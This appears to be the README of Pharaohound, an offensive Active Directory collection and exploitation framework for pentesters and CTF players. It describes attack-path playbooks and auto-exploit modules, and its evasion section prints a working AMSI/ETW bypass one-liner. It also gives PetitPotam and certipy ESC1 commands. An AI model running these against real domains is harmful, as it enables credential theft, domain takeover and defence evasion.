



# ☥ Pharaohound ☥
> **The Active Directory Collection, Analysis & Exploitation Framework**

[](https://www.python.org)
[](https://github.com/Asbawy/pharaohound)
[](https://github.com/)
[](LICENSE)

**Pharaohound** is a complete Active Directory security framework that **collects, analyzes, and maps attack paths** — all from a single interactive shell. It connects directly to AD via LDAP to enumerate objects (like BloodHound-python or SharpHound), runs 30+ automated security analyzers, scores OpSec risks, and compiles **copy-paste-ready exploitation playbooks** for penetration testers, CTF players, and red team operators.

### What's New in v2.0
 
 - **🔌 Built-in LDAP Collector** — Collect AD data directly from Domain Controllers via LDAP (NTLM/Kerberos auth), saving BloodHound-compatible JSON files or ZIP archives.
 - **🐚 Framework Interactive Shell** — A full framework interface with stateful variables, tab completion, command history, and a seamless collect → load → analyze → explore workflow.
 - **📡 `collect` CLI Subcommand** — One-liner collection: `pharaohound collect -t DC_IP -u user -p pass -d DOMAIN`.
 - **☁ AD CS + Azure + Hybrid** — 30+ analyzers covering ESC1–ESC13, Azure/Entra ID, SCCM, WSUS, Exchange, and more.
 - **⚔ Auto-Exploitation Engine** — 14 targeted Active Directory exploit modules runnable directly from the framework shell. Covers every major BloodHound edge: `DCSync`, `GenericAll`, `GenericWrite`, `WriteOwner`, `WriteDacl`, `Owns`, `ForceChangePassword`, `AddMembers`, `AddSelf`, `MemberOf`, `AllExtendedRights`, `ReadGMSAPassword`, `GetChanges`, and `Contains`.

---

## ⚔ Pharaohound vs. BloodHound: The Hybrid Strategy

### Why use Pharaohound instead of (or before) BloodHound?

In fast-paced environments like **Capture The Flag (CTF) competitions** (e.g., HackTheBox, Pro Labs, OSCP) or time-boxed pentests, setting up the standard BloodHound GUI can be a bottleneck. Pharaohound solves this by offering a lightweight, CLI-first companion:

1. **Collect & Analyze Without BloodHound**: Pharaohound has its own LDAP-based data collector — no need for SharpHound, BloodHound-python, or the Neo4j database. Connect to a DC, collect, and analyze in one command.
2. **Eliminate Neo4j & GUI Overhead**: Starting Neo4j, logging in, uploading huge ZIP files, and waiting for graph rendering takes time. On low-resource attack VMs (like a 4GB Kali VM), Neo4j often causes OOM crashes. Pharaohound streams raw JSON files with **parallel ingestion workers**, finishing in milliseconds.
3. **Instant Actionable Commands (No Search Required)**: BloodHound shows relationship paths but doesn't give you the commands. Pharaohound generates the exact commands (using `Impacket`, `Certipy`, `Coercer`, `PowerView`, etc.) to execute the attack.
4. **Framework-Level Workflow**: Set variables once (`set target 10.10.10.10`), then every command in every playbook is automatically interpolated — 100% copy-paste-ready.
5. **Designed for AD Beginners**: Pharaohound's `--noob` mode strips away intermediate graph hops, explains edge meanings in plain English, and outlines the step-by-step path to Domain Admin.

> [!IMPORTANT]
> **Pharaohound does NOT replace BloodHound.** It is your first-response triage tool.
> Use Pharaohound to immediately identify high-signal paths and exploit low-hanging fruit. If you hit a wall or need complex multi-hop graph queries, import the collected data into the BloodHound GUI.

### Comparison Table

| Feature / Scenario | BloodHound (Neo4j GUI) | Pharaohound (Framework) |
| :--- | :--- | :--- |
| **Data Collection** | ❌ Requires separate tools (SharpHound, BH-python) | **🔌 Built-in LDAP collector** |
| **Startup Overhead** | ❌ Minutes (Java Neo4j + Electron GUI) | **⚡ Milliseconds** (CLI framework) |
| **System Resources** | ❌ Gigabytes of RAM (Java VM crashes) | **🟢 Negligible** (Iterative stream parser) |
| **Exploitation Focus** | Relationship visualization | **Actionable commands & playbooks** |
| **Framework Shell** | ❌ No interactive workflow | **🐚 Full collect→analyze→explore shell** |
| **CTF & Quick Triage** | ❌ Slow import & laggy traversal | **⚡ Instant command line answers** |
| **Beginner Friendly** | ❌ Complex nested relationships | **🐣 `--noob` mode** (ELI5 plain-English) |
| **Evasion & Playbooks** | None (Static help text) | **⚙ `--vars` interpolation & `--evasion` payloads** |
| **Multi-Hop Graph** | **🟢 Full interactive visual search** | ❌ Vis.js HTML export (simpler scope) |

---

## 📸 Console Screenshots & Output Examples

Here is how Pharaohound visualizes Active Directory vulnerabilities, maps out detailed step-by-step exploitation playbooks, and generates prioritized recommendations directly in your terminal:

### 1. Prioritized Recommendations & Command Blueprints
Pharaohound analyzes the domain and provides a prioritized remediation and exploitation blueprint, listing exact commands, alternative methods, detection footprints, and defender fixes:


### 2. High-Fidelity Attack Paths
Instead of forcing you to guess how to exploit relationships, Pharaohound spells out the exact exploitation steps and commands needed to reach your target:


### 3. Detailed Vulnerability Analyses
For every discovered vulnerability type, Pharaohound generates deep, ELI5 (Explain Like I'm 5) explanations, risk analyses, and defender actions:


---

## ⚱ Key Features

### 🔌 Data Collection
*   **Built-in LDAP Collector**: Connect directly to Domain Controllers via LDAP to enumerate users, groups, computers, domains, GPOs, OUs, containers, Certificate Authorities, and Certificate Templates.
*   **Authentication Methods**: NTLM (`DOMAIN\user` + password), Kerberos (ccache/TGT), and Simple bind.
*   **Smart Auth Fallback**: Automatically attempts Kerberos authentication (obtaining a TGT via `impacket` and performing SASL/GSSAPI bind using the resolved DC hostname) if NTLM authentication fails or is disabled.
*   **BloodHound-Compatible Output**: Saves collected data as standard SharpHound JSON files or ZIP archives — importable by both Pharaohound and the BloodHound GUI.
*   **Collection Methods**: `All`, `Default`, `DCOnly`, `ObjectProps`, `Trusts`, `Container`, `CertServices`, `ACL`.
*   **Custom DNS**: Specify a custom DNS server with `--dns-server` for environments without default DNS resolution.

### 🐚 Framework Interactive Shell
*   **Full Workflow**: `collect` → `load` → `analyze` → `paths` / `recs` / `export` — all from a single interactive prompt.
*   **Tab Completion**: Auto-complete commands, node names, edge types, and variable keys.
*   **Command History**: Navigate previous commands with readline support.
*   **Stateful Variables**: Set once with `set target 10.10.10.10`, used everywhere — in collection, analysis, and all playbook commands.
*   **Dynamic Prompt**: Shows domain name and analysis status (e.g., `☥ pharaohound(CORP.LOCAL) ✓>`).

### ⚡ Analysis Engine
*   **Streaming JSON Parser**: Uses `ijson` to parse multi-gigabyte collections iteratively with flat memory usage. Falls back to a custom chunked reader if dependencies are missing.
*   **Parallel Threading Ingestion**: Ingests all object types in parallel using a `ThreadPoolExecutor`.
*   **30+ Security Analyzers**: Covers Kerberos attacks, delegation abuse, AD CS ESC1–ESC13, Azure/Entra ID, SCCM, WSUS, Exchange, honeytokens, and more.
*   **OpSec-Aware Path Scoring**: Attack paths ranked by detection probability using Event ID footprint analysis.

### ⚙ Tactical Operations
*   **Variable Interpolation (`--vars`)**: Substitutes command placeholders (`<DC_IP>`, `<PASSWORD>`, `<TARGET_USER>`) dynamically using an environment JSON file.
*   **Tactical Evasion Engine (`--evasion`)**: Prepends AMSI and ETW bypass payloads to PowerShell playbooks.
*   **"Pentest Noob" Mode (`--noob`)**: Translates complex AD relationships into step-by-step English instructions.
*   **Multi-Format Reporting**: Console, interactive HTML graph (Vis.js), and detailed text summaries.
*   **GitHub Update Notifier**: Non-blocking version check on startup.

---

## 📁 Repository Structure

```text
├── pharaohound/                     # Main Python package
│   ├── __init__.py                  # v2.0.1 version and package info
│   ├── __main__.py                  # Entry point for 'python -m pharaohound'
│   ├── cli.py                       # CLI parsing, subcommands, and engine coordinator
│   ├── shell.py                     # ★ Framework interactive shell (primary interface)
│   ├── attack_paths.py              # Attack path building logic and OpSec scoring
│   ├── graph.py                     # Graph traversal helper utilities
│   ├── intelligence.py              # Remediation and playbooks database
│   ├── models.py                    # BloodHound AD/Azure entity models
│   ├── noob.py                      # "Pentest Noob" mode translator
│   ├── parsers.py                   # Parallel ijson/chunked loader
│   ├── reachability.py              # Compromised user reachability analysis
│   ├── recommendations.py           # OpSec-Aware prioritizing engine
│   ├── tactical.py                  # Playbook variable interpolation + evasion
│   ├── theme.py                     # Color themes, glyphs, and banner
│   ├── update.py                    # Non-blocking GitHub update notifier
│   │
│   ├── collector/                   # ★ NEW — LDAP data collection engine
│   │   ├── __init__.py              # Package exports (ADCollector, LDAPClient)
│   │   ├── ldap_client.py           # LDAP connection (NTLM/Kerberos/Simple)
│   │   ├── enumerators.py           # Per-type LDAP query classes (9 enumerators)
│   │   ├── resolver.py              # SID/DNS resolution cache + well-known SIDs
│   │   ├── output.py                # BloodHound-compatible JSON/ZIP writer
│   │   └── collector.py             # Main collection orchestrator
│   │
│   ├── analyzers/                   # Modular finding analyzers (30+ modules)
│   │   ├── __init__.py              # Dynamic analyzer imports list
│   │   ├── base.py                  # BaseAnalyzer and Finding structures
│   │   ├── registry.py              # Self-registering analyzer loader
│   │   ├── kerberoast.py            # Kerberoasting analyzer
│   │   ├── asrep.py                 # ASREP-roasting analyzer
│   │   ├── adcs.py                  # AD CS ESC1-ESC13 analyzer
│   │   ├── azure.py                 # Azure/Hybrid AD paths analyzer
│   │   ├── azure_advanced.py        # PRT extraction, Intune, Seamless SSO
│   │   ├── infrastructure.py        # SCCM, WSUS, Exchange abuse
│   │   ├── honeytoken.py            # Honeytoken/deception detection
│   │   ├── ticket_forging.py        # Golden/Silver ticket capabilities
│   │   └── ...                      # 20+ additional vulnerability analyzers
│   │
│   ├── modules/                     # ★ Auto-exploitation engine (14 modules)
│   │   ├── __init__.py              # Package exports (ModuleRegistry, ExploitModule)
│   │   ├── base.py                  # ExploitModule ABC, ExploitOutput, ModuleOption
│   │   ├── registry.py              # Dynamic module discovery via pkgutil
│   │   ├── dcsync.py                # DCSync — credential dump via AD replication
│   │   ├── generic_all.py           # GenericAll — multi-technique dispatcher
│   │   ├── generic_write.py         # GenericWrite — SPN hijack, RBCD, script path, etc.
│   │   ├── write_owner.py           # WriteOwner — ownership takeover + DACL mod
│   │   ├── write_dacl.py            # WriteDacl — arbitrary ACE injection
│   │   ├── owns.py                  # Owns — owner-privilege DACL manipulation
│   │   ├── force_change_password.py # ForceChangePassword — LDAP/SAMR password reset
│   │   ├── add_members.py           # AddMembers — group member injection
│   │   ├── add_self.py              # AddSelf — self-membership escalation
│   │   ├── member_of.py             # MemberOf — group membership analysis/exploit
│   │   ├── all_extended_rights.py   # AllExtendedRights — auto-detect & exploit
│   │   ├── read_gmsa_password.py    # ReadGMSAPassword — gMSA NT hash extraction
│   │   ├── get_changes.py           # GetChanges — targeted AD replication
│   │   └── contains.py              # Contains — OU/container object manipulation
│   │
│   └── reporters/                   # Output formatters
│       ├── __init__.py              # Reporters init
│       ├── console.py               # Rich/ASCII console outputs
│       ├── text.py                  # Text file reporter
│       └── html.py                  # Interactive HTML graph reporter (Vis.js)
│
├── pharaohound.py                   # Root script launcher wrapper
├── pyproject.toml                   # PEP 517 build config (v2.0.1)
├── requirements.txt                 # Runtime dependencies
└── vars.json                        # Example variables config
```

---

## 🚀 Installation & Setup

### Install via pipx (Recommended)
The recommended way to install `pharaohound` as a standalone CLI tool:

```bash
pipx install .
```

### Standard pip Installation
```bash
pip install .
```

### Install with Collection Support
The collector requires `ldap3` for LDAP communication. It's included in the default dependencies, but you can install it explicitly:
```bash
pip install ldap3 dnspython
```

### Local Script Execution
Run directly from the repository without installing:
```bash
python pharaohound.py <directory_with_bloodhound_jsons>
```

Once installed, execute the tool from anywhere:
```bash
# Launch interactive framework shell
pharaohound

# Analyze existing BloodHound data
pharaohound <directory_with_bloodhound_jsons>

# Or via module
python -m pharaohound
```

---

## 🛠 Usage & Command Line Options

### Three Entry Modes

#### 1. Interactive Framework Shell (Recommended)
```bash
pharaohound
```
Launches the full framework interface — collect, analyze, and explore from a single interactive prompt.

#### 2. CLI Data Collection
```bash
pharaohound collect -t <DC_IP> -u <USERNAME> -p <PASSWORD> -d <DOMAIN>
```
One-liner AD data collection — connects to a Domain Controller, enumerates all AD objects, and saves BloodHound-compatible JSON files.

#### 3. Direct Analysis (Legacy Mode)
```bash
pharaohound <directory_with_bloodhound_jsons> --all
```
Classic mode — parse existing BloodHound JSON files and run all analyzers.

### Main CLI Flags

| Flag | Description |
|---|---|
| `directory` | Folder containing SharpHound or BloodHound `.json` collections |
| `-o`, `--output` | Target directory for reports (default: `.`) |
| `--format` | Report format: `text`, `html`, `both`, `console-only` (default: `both`) |
| `--user` | Compromised user (`USER@DOMAIN`). Can be repeated. |
| `--all` | Full unfiltered scan (skip user selection) |
| `--no-color` | Disable ANSI colors |
| `--no-rich` | Disable Rich tables (ASCII fallback) |
| `--workers` | Parallel worker count for ingestion |
| `--list-analyzers` | List all registered analyzers and exit |
| `--noob` | Simplified jargon-free output |
| `--evasion` | Prepend AMSI/ETW bypass payloads |
| `--vars` | JSON config file for variable interpolation |
| `--shell` | Drop into the interactive shell after analysis |

### Collection Subcommand Flags

```bash
pharaohound collect --help
```

| Flag | Description |
|---|---|
| `-t`, `--target` | Target Domain Controller IP or hostname (required) |
| `-u`, `--user` | Username for authentication (required) |
| `-p`, `--pass` | Password for authentication (required) |
| `-d`, `--domain` | Domain name, e.g., `CORP.LOCAL` (required) |
| `--auth` | Auth method: `ntlm` (default), `simple`, `kerberos` |
| `--dns-server` | Custom DNS server IP |
| `-o`, `--output` | Output directory (default: `.`) |
| `--method` | Collection method: `All`, `Default`, `DCOnly`, `ObjectProps`, `Trusts`, `Container`, `CertServices`, `ACL` |
| `--no-zip` | Save individual JSON files instead of a ZIP archive |
| `--secure` | Use LDAPS (SSL/TLS) |
| `--analyze` | Automatically analyze after collection completes |

---

## 🐚 Framework Interactive Shell

The interactive shell is the primary way to use Pharaohound. Launch it with `pharaohound` (no arguments).

### Full Command Reference

| Command | Category | Description |
|---|---|---|
| `collect` | Collection | Start AD data collection (interactive prompts or inline args) |
| `load <dir>` | Loading | Load BloodHound JSON files from a directory |
| `analyze` | Analysis | Run all 30+ security analyzers on loaded data |
| `set <key> <value>` | Variables | Set a framework variable (e.g., `set target 10.10.10.10`) |
| `unset <key>` | Variables | Remove a framework variable |
| `options` | Variables | Show all current variable settings |
| `nodes [type]` | Exploration | List loaded AD objects (filter: `user`, `group`, `computer`, `gpo`, `ou`, `domain`, `ca`, `certtemplate`, `azure`) |
| `find <name>` | Exploration | Search for a node by partial name match |
| `info <name>` | Exploration | Show detailed node properties, ACEs, and flags |
| `stats` | Exploration | Show domain statistics |
| `paths` | Attack | List all discovered attack paths with OpSec ratings |
| `path <n>` | Attack | Show detailed steps for a specific attack path |
| `recs` | Attack | Show prioritized recommendations with commands |
| `commands <edge>` | Attack | Show exploitation playbooks for a BloodHound edge (e.g., `GenericAll`) |
| `edges` | Attack | List all known edge types with intelligence |
| `modules` | Exploitation | List all available auto-exploitation modules |
| `exploit <module>` | Exploitation | Run an auto-exploitation module against a target |
| `compromised [subcmd]`| Reachability | Manage compromised accounts and filter findings/paths (`add`, `remove`, `list`, `clear`) |
| `export <fmt> [path]` | Reporting | Export report (`text`, `html`, or `both`) |
| `status` | Utility | Show framework status (loaded data, analysis state) |
| `banner` | Utility | Show the Pharaohound banner |
| `clear` | Utility | Clear the terminal screen |
| `history` | Utility | Show command history |
| `help` | Utility | Show all available commands |
| `exit` / `quit` | Utility | Exit the framework |

---

## 🔍 Active Directory Exploration Guide

Once your data is loaded in the interactive shell, you can search, list, and query the properties of any AD object. This allows you to explore the environment without needing the BloodHound GUI.

### 1. Listing Objects (`nodes`)
Use the `nodes` command to list objects in the directory. You can optionally filter by type: `user`, `group`, `computer`, `gpo`, `ou`, `domain`, `ca`, `certtemplate`, or `azure`.

**Example: Listing Groups**
```text
☥ pharaohound (SUPPORT.HTB) ✓> nodes group

  Objects (49):
      1. [group] Access Control Assistance Operators@SUPPORT.HTB
      2. [group] Account Operators@SUPPORT.HTB (ADMIN, HIGH-VALUE)
      3. [group] Administrators@SUPPORT.HTB (ADMIN, HIGH-VALUE)
      4. [group] Allowed RODC Password Replication Group@SUPPORT.HTB
      5. [group] Backup Operators@SUPPORT.HTB (ADMIN, HIGH-VALUE)
      6. [group] Cert Publishers@SUPPORT.HTB (HIGH-VALUE)
      7. [group] Certificate Service DCOM Access@SUPPORT.HTB
      8. [group] Cloneable Domain Controllers@SUPPORT.HTB
      9. [group] Cryptographic Operators@SUPPORT.HTB (HIGH-VALUE)
      10. [group] Denied RODC Password Replication Group@SUPPORT.HTB
      ...
```

**Example: Listing Users**
```text
☥ pharaohound (SUPPORT.HTB) ✓> nodes user

  Objects (20):
      1. [user] Administrator@SUPPORT.HTB (ADMIN)
      2. [user] Guest@SUPPORT.HTB
      3. [user] anderson.damian@SUPPORT.HTB
      4. [user] bardot.mary@SUPPORT.HTB
      5. [user] cromwell.gerard@SUPPORT.HTB
      6. [user] daughtler.mabel@SUPPORT.HTB
      7. [user] ford.victoria@SUPPORT.HTB
      8. [user] hernandez.stanley@SUPPORT.HTB
      9. [user] krbtgt@SUPPORT.HTB (ADMIN, SPN)
      10. [user] langley.lucy@SUPPORT.HTB
      11. [user] ldap@SUPPORT.HTB
      ...
```

### 2. Searching for Objects (`find`)
Use the `find` command to search for any object by a partial, case-insensitive name match.

**Example: Finding Administrators**
```text
☥ pharaohound (SUPPORT.HTB) ✓> find admin
  Matches:
    - [user] Administrator@SUPPORT.HTB (ADMIN)
    - [group] Administrators@SUPPORT.HTB (ADMIN, HIGH-VALUE)
    - [group] Domain Admins@SUPPORT.HTB (ADMIN, HIGH-VALUE)
    - [group] Enterprise Admins@SUPPORT.HTB (ADMIN, HIGH-VALUE)
    - [group] Schema Admins@SUPPORT.HTB (ADMIN, HIGH-VALUE)
```

### 3. Reviewing Object Details (`info`)
Use the `info` command to dump a node's active properties, nested group memberships, and its Active Directory Access Control Entries (ACEs).

**Example: Inspecting a Computer Account**
```text
☥ pharaohound (SUPPORT.HTB) ✓> info SUPPORT-DC.SUPPORT.HTB
  Name: SUPPORT-DC.SUPPORT.HTB
  Type: COMPUTER
  SID: S-1-5-21-1677581083-3380853377-188903654-1001
  DN: CN=SUPPORT-DC,OU=Domain Controllers,DC=support,DC=htb
  OS: Windows Server 2019 Standard
  Enabled: True
  
  [☥] Direct Inbound ACEs (12):
    - SHARED SUPPORT ACCOUNTS@SUPPORT.HTB holds GenericAll
    - ENTERPRISE ADMINS@SUPPORT.HTB holds GenericAll
    - DOMAIN ADMINS@SUPPORT.HTB holds GenericAll
    ...
```

### 4. Smart Reachability Analysis (`compromised`)
When you establish a foothold in a domain, you can tell the framework which user, group, or computer you have compromised. Pharaohound will calculate the transitive reachability closure of that account and filter all security findings and attack paths to only display what is **actually reachable and exploitable** from your current position.

* **List compromised footholds**:
  ```text
  ☥ pharaohound (SUPPORT.HTB)> compromised
  ```
* **Add a compromised account/SID**:
  ```text
  ☥ pharaohound (SUPPORT.HTB)> compromised add support
  [✓] Marked support as compromised.
  Note: Run analyze to recalculate reachable paths.
  ```
* **Remove a compromised account**:
  ```text
  ☥ pharaohound (SUPPORT.HTB)> compromised remove support
  ```
* **Clear all footholds**:
  ```text
  ☥ pharaohound (SUPPORT.HTB)> compromised clear
  ```

Once added, running **`analyze`** will output:
```text
☥ pharaohound (SUPPORT.HTB) ✓> analyze

[☥] Running analyzers…
  [☥] Reachability Analysis active. Filtering to compromised foothold...
  
  [✓] Analysis complete: 3 findings, 1 attack paths, 2 recommendations
```

### 5. Session Save & Restore (`save` / `restore`)
If you need to pause your assessment or share your state, you can save your entire interactive session. This serializes all global variables, compromised footholds, findings, attack paths, and recommendations. 

Sessions are saved under `~/.pharaohound/sessions/` (or `.sessions/` on Linux/macOS) and can be restored instantly, automatically reloading database archives in the background.

* **Save the current session**:
  ```text
  ☥ pharaohound (SUPPORT.HTB) ✓> save my_foothold_session
  
    [☥] Packing and sealing session state...
    [✓] SESSION SAVED SUCCESSFUL
      Name: my_foothold_session
      Path: ~/.pharaohound/sessions/my_foothold_session.json
  ```
* **List all saved sessions**:
  ```text
  ☥ pharaohound (SUPPORT.HTB) ✓> sessions
  
    Saved Pharaohound Sessions:
      1. my_foothold_session                (SUPPORT.HTB)             Saved: 2026-06-30 10:55:00  [vars=4, footholds=1]
  ```
* **Restore a saved session**:
  ```text
  ☥ pharaohound> restore my_foothold_session
  
    [☥] Opening tomb and restoring session state...
    [✓] Reconstructing memory graph...
    [⚱] Reloading AD objects from source: ./20260630071839_support_htb_pharaohound.zip
      Streaming 6 JSON file(s) with 6 parallel workers…
      Ingestion complete. Beginning ritual of analysis…
  
  ============================================================
    [✓] SESSION RESTORED SUCCESSFULLY
  ============================================================
    Domain:          SUPPORT.HTB
    Objects:         191 loaded
    Findings:        3 restored
    Attack Paths:    1 restored
    Compromised:     1 foothold(s) active
  ============================================================
  ```

---

### Example Session: Collect → Analyze → Explore

```text
$ pharaohound

   ☥  PHARAOHOUND FRAMEWORK — Interactive Mode

  Quick Start:
    1. collect              — Collect data from Active Directory via LDAP
    2. load <dir>           — Load existing BloodHound JSON files
    3. analyze              — Run all security analyzers
    4. paths / recs         — Explore attack paths & recommendations
    5. export html          — Generate HTML report

  ☥ pharaohound> set target 10.10.10.10
  [✓] target → 10.10.10.10

  ☥ pharaohound> set domain CORP.LOCAL
  [✓] domain → CORP.LOCAL

  ☥ pharaohound> set username jsmith
  [✓] username → jsmith

  ☥ pharaohound> set password P@ssw0rd!
  [✓] password → ********

  ☥ pharaohound> collect
  [☥] Connecting to 10.10.10.10…
    Auth: NTLM (CORP.LOCAL\jsmith)
  [✓] Connected! Domain: CORP.LOCAL (SID: S-1-5-21-...)

    ☥  PHARAOHOUND DATA COLLECTION
  [✓] Domains: 1 objects (0.2s)
  [✓] Users: 847 objects (1.3s)
  [✓] Groups: 312 objects (0.8s)
  [✓] Computers: 156 objects (0.6s)
  [✓] Gpos: 28 objects (0.1s)
  [✓] Ous: 45 objects (0.1s)
  [✓] Containers: 19 objects (0.1s)
  [✓] Cas: 2 objects (0.1s)
  [✓] Certtemplates: 34 objects (0.2s)

  [✓] Collection complete in 3.5s
  [✓] Collection archived → 20260625_corp_local_pharaohound.zip (245.3 KB)

  Start analysis on collected data? [Y/n]: y

  [☥] Running analyzers…
  [CRITICAL] dangerous_acls                   (1,247 items)
  [CRITICAL] unconstrained_delegation         (3 items)
  [HIGH    ] AD CS Misconfigurations          (5 items)
  ...

  [✓] Analysis complete: 12 findings, 8 attack paths, 15 recommendations

  ☥ pharaohound(CORP.LOCAL) ✓> paths
  Attack Paths (8):
      1. [CRITICAL] Administrator Session Hijack via LSASS mini-dump  🟢 SILENT
      2. [HIGH] Domain Takeover via AD CS ESC1 Misconfiguration  🟡 LOW
      3. [HIGH] RBCD via Machine Account Quota  🟡 LOW
      ...

  ☥ pharaohound(CORP.LOCAL) ✓> path 2
  Path 2: Domain Takeover via AD CS ESC1 Misconfiguration
  Severity: HIGH  🟡 LOW
  Summary: Request a certificate for Domain Admin via ESC1 Template
  Steps:
    1. You control a low-priv user (jsmith@CORP.LOCAL).
    2. Query vulnerable templates with: certipy find -u jsmith@CORP.LOCAL -p 'P@ssw0rd!' -dc-ip 10.10.10.10
    3. Request the certificate: certipy req -u jsmith@CORP.LOCAL -p 'P@ssw0rd!' ...

  ☥ pharaohound(CORP.LOCAL) ✓> export html ./reports
  [✓] HTML report: ./reports/pharaohound_report_20260625_155142.html

  ☥ pharaohound(CORP.LOCAL) ✓> exit
  [☥] Exiting Pharaohound.
```

### Example Session: Load Existing Data

```text
  ☥ pharaohound> load ./loot/bloodhound_data/
  [⚱] Loading data from: ./loot/bloodhound_data/

  [✓] bloodhound_users.json  (users: 847 objects, backend=ijson)
  [✓] bloodhound_groups.json (groups: 312 objects, backend=ijson)
  ...
  [✓] Loaded 1424 objects from CORP.LOCAL

  ☥ pharaohound(CORP.LOCAL)> analyze
  [☥] Running analyzers…
  ...

  ☥ pharaohound(CORP.LOCAL) ✓> recs
```

---

## 🔌 Data Collection

Pharaohound v2.0 includes its own LDAP-based data collector — no need for external tools.

### CLI Collection

```bash
# Full collection with NTLM auth
pharaohound collect \
    --target 10.10.10.10 \
    --user jsmith \
    --pass 'P@ssw0rd!' \
    --domain CORP.LOCAL \
    --method All \
    --output ./loot/

# DC-only collection (fast, minimal queries)
pharaohound collect -t 10.10.10.10 -u admin -p pass -d CORP.LOCAL --method DCOnly

# Certificate Services only
pharaohound collect -t 10.10.10.10 -u admin -p pass -d CORP.LOCAL --method CertServices

# Collect and auto-analyze
pharaohound collect -t 10.10.10.10 -u admin -p pass -d CORP.LOCAL --analyze

# Save as individual JSON files (no ZIP)
pharaohound collect -t 10.10.10.10 -u admin -p pass -d CORP.LOCAL --no-zip

# Use LDAPS (SSL/TLS)
pharaohound collect -t 10.10.10.10 -u admin -p pass -d CORP.LOCAL --secure

# Custom DNS server
pharaohound collect -t 10.10.10.10 -u admin -p pass -d CORP.LOCAL --dns-server 10.10.10.10
```

### Collection Methods

| Method | Objects Collected |
|---|---|
| `All` | Users, Groups, Computers, Domains, GPOs, OUs, Containers, CAs, CertTemplates, ACLs |
| `Default` | Users, Groups, Computers, Domains, GPOs, OUs, Containers |
| `DCOnly` | Users, Groups, Computers, Domains |
| `ObjectProps` | Users, Groups, Computers |
| `Trusts` | Domains (with trust enumeration) |
| `Container` | OUs, Containers, GPOs |
| `CertServices` | CAs, CertTemplates |
| `ACL` | Security descriptor parsing |

### Output Format
Collected data is saved as **standard BloodHound JSON files** with proper `meta` blocks — compatible with both Pharaohound's parsers and the BloodHound GUI. Files are archived into a ZIP by default (`--no-zip` for individual files).

---

## ⚙ Playbook Variable Interpolation (`--vars`)

Pharaohound allows operators to supply a variables file to replace default command placeholders (`<DC_IP>`, `<PASSWORD>`, `<TARGET_USER>`) dynamically.

**Example `vars.json`:**
```json
{
  "domain_controller": "10.10.10.10",
  "dc_hostname": "DC01.CORP.LOCAL",
  "attacker_host": "10.10.14.5",
  "compromised_password": "Password123!",
  "target_user": "Administrator",
  "controlled_computer": "EVIL-WORKSTATION$"
}
```

**Running with Variables:**
```bash
pharaohound testCase --all --vars vars.json
```

### Before and After Interpolation

**Without `--vars`:**
```bash
python3 PetitPotam.py -u '<DOMAIN_USER>' -p '<PASSWORD>' <UD_HOST> <DC_IP>
```

**With `--vars`:**
```bash
python3 PetitPotam.py -u 'Administrator' -p 'Password123!' <UD_HOST> 10.10.10.10
```

### Combining Variables with Evasion (`--evasion`)
```bash
pharaohound testCase --all --vars vars.json --evasion
```
Pharaohound fills in passwords/IPs *and* injects AMSI/ETW bypasses into PowerShell playbooks:

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true); [Reflection.Assembly]::LoadWithPartialName('System.Core').GetType('System.Diagnostics.Eventing.EventProvider').GetField('m_enabled','NonPublic,Instance').SetValue([System.Diagnostics.Eventing.EventProvider],0); Add-DomainGroupMember -Identity '<TARGET_GROUP>' -Members 'Administrator'
```

### Framework Shell Variables
In the interactive shell, variables are set with `set` and automatically used by the collector and all playbook commands:
```text
  ☥ pharaohound> set dc_ip 10.10.10.10
  ☥ pharaohound> set password P@ssw0rd!
  ☥ pharaohound> set target_user Administrator
  ☥ pharaohound> options
  Framework Variables:
    dc_ip         = 10.10.10.10
    password      = ********
    target_user   = Administrator
```

---

## ☥ List of Built-In Analyzers

Pharaohound executes a comprehensive suite of **30+ automated diagnostic analyzers**:

